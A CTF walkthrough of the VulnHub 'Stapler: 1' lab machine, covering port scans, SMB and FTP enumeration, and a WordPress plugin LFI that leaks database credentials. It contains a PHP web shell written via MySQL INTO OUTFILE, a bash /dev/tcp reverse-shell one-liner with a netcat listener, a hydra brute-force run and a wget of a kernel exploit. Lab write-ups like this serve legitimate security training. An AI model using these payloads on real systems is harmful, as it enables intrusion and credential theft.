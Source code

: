 #  Stapler: 1

https://www.vulnhub.com/entry/stapler-1,150/

Definitely one of the more interesting ones because there are lots of different paths to look at. We do a netdiscover to find `192.168.1.96` and do an nmap scan.

```
root@kali:~# nmap -A -p- -T5 192.168.1.96
Starting Nmap 7.12 ( https://nmap.org ) at 2016-06-29 15:36 BST
Nmap scan report for red.initech.vulnlab.fbcnt.in (10.1.11.137)
Host is up (0.00022s latency).
Not shown: 65523 filtered ports
PORT      STATE  SERVICE     VERSION
20/tcp    closed ftp-data
21/tcp    open   ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: Can't parse PASV response: "Permission denied."
22/tcp    open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 81:21:ce:a1:1a:05:b1:69:4f:4d:ed:80:28:e8:99:05 (RSA)
|_  256 5b:a5:bb:67:91:1a:51:c2:d3:21:da:c0:ca:f0:db:9e (ECDSA)
53/tcp    open   domain      dnsmasq 2.75
| dns-nsid:
|   id.server: patriot.fbcnt.in
|_  bind.version: dnsmasq-2.75
80/tcp    open   http
|_http-title: 404 Not Found
123/tcp   closed ntp
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: RED)
666/tcp   open   doom?
3306/tcp  open   mysql       MySQL 5.7.12-0ubuntu1
| mysql-info:
|   Protocol: 53
|   Version: .7.12-0ubuntu1
|   Thread ID: 27
|   Capabilities flags: 63487
|   Some Capabilities: LongPassword, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsTransactions, Support41Auth, FoundRows, Speaks41ProtocolOld, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsCompression, IgnoreSigpipes, DontAllowDatabaseTableColumn, LongColumnFlag
|   Status: Autocommit
Kv\x12\x19`"dx\s\x01ptM"
12380/tcp open   http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tim, we need to-do better next year for Initech

Host script results:
|_nbstat: NetBIOS name: RED, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: red
|   NetBIOS computer name: RED
|   Domain name:
|   FQDN: red
|_  System time: 2016-06-29T16:38:10+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms red.initech.vulnlab.fbcnt.in (10.1.11.137)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.26 seconds
```

I had a look at `enum4linux 192.168.1.96` to find some information about samba version, users, any public directories. Similary, ftp can be logged in with anonymous to find a file with some user. I went on to check `http://192.168.1.96:666/` to find some binary looking file. I saved it as doom and found it was a zip file `file doom`, unzipping it `unzip doom` gives us an image. It some error message with the name Scott, ssh to us gives us a name Barry.

## Wordpress and MySQL

We check the port 12380 and find another webpage, we do a nikto and dirb scan `nikto -h  https://192.168.190.131:12380 and dirb https://192.168.190.131:12380`. We also see that it is a wordpress website, using `wpscan --url https://192.168.1.96:12380/blogblog/ --enumerate u` and  will give us some more exploits.

```
root@kali:~/test# wpscan --url https://192.168.1.96:12380/blogblog/ --enumerate u --disable-tls-checks
root@kali:~/test# wpscan --url https://192.168.1.96:12380/blogblog/ --enumerate ap --disable-tls-checks
```

We see also find the plugins directory by traversing from nikto's results, https://192.168.1.96:12380/blogblog/wp-content/plugins/. Those plugins did not show up on the enumeration so we can check if they have exploits. `searchsploit advanced video` gives us a hit. Reading the code `/usr/share/exploitdb/platforms//php/webapps/39646.py` we can modify it e.g. https://192.168.1.96:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php 

Instead of viewing it from the redirected link it goes to, we see that it makes a new blog post with the img it created. Saving this image and reading it will give us the requested file from our LFI code injection. From the wp-config file we get root:plbkac and we can log in with the credential through https://192.168.1.96:12380/phpmyadmin/. Extracting the wordpress > wp_users table and using hashcat/John we get a pass, `john:incorrect`. Other older walkthrough, they logged into wordpress then upload a shell through the plugin section, but this now asks for the ftp, which doesnt work with anonymous:anonymous or elly:ylle.

Instead, since we have root access in MySQL, we can execute `Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";` and visit `https://192.168.1.96:12380/blogblog/wp-content/uploads/shell.php?cmd=whoami

Now, we can actually do `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` and on attacker's vm `nc -lvp 1234` to get a reverse shell. To make things easier, we can spawn a [TTY shell](https://netsec.ws/?p=337) `python -c 'import pty; pty.spawn("/bin/sh")'`

## FTP
We can also log into ftp and use anonymous:anonymous. We find the `cat note` with elly and can use hydra.

```
root@kali:~/test# hydra -l elly -P /usr/share/wordlists/rockyou.txt -e nsr ftp://192.168.1.96
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-10-01 02:57:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:14344402), ~896526 tries per task
[DATA] attacking ftp://192.168.1.96:21/
[21][ftp] host: 192.168.1.96   login: elly   password: ylle
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-10-01 02:58:03

```

From there, we can `get passwd` and get a list of users which we can use for ssh.

## Privilege Escalation
From other walkthrough, one way to easily get it was too log into Peter's account and run `./sudo_as_admin_successful`. This can be found by `cat */.bash_history` to see anything useful, passwords may be seen on CTF challenges, but in real-life these are usually prompt. But, lets say we didn't, we can `wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/39772.zip` and run that exploit to gain privleges.


Note: Some information I found useful, but did not lead too any useful results. Just some reference for myself.

```
root@kali:~/test# smbclient -L 192.168.1.96
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here? <--------------- looks suspicious
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	HOME                 BTHUB3
	WORKGROUP            RED
    
root@kali:~/test# smbclient //fred/kathy -I 192.168.1.96 <-------- fred had access to kathy's share
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]
smb: \> ls
  .                                   D        0  Fri Jun  3 17:52:52 2016
  ..                                  D        0  Mon Jun  6 22:39:56 2016
  kathy_stuff                         D        0  Sun Jun  5 16:02:27 2016
  backup                              D        0  Sun Jun  5 16:04:14 2016

		19478204 blocks of size 1024. 16347816 blocks available
        
(get all files of interests)
```
